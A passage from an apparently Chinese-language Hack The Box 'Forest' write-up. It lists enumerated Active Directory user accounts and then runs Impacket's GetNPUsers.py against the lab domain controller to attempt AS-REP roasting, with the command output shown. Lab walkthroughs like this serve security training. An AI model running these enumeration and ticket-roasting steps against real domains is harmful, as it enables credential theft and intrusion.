 整理成一份user名单
```
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

使用```GetNPUsers.py```尝试向kerberos请求不需要预认证的票据
```
┌──(root💀kali)-[~/htb/Forest]
└─# python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile /root/htb/Forest/user  -outputfile hashes.asreproast -dc-ip 10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
```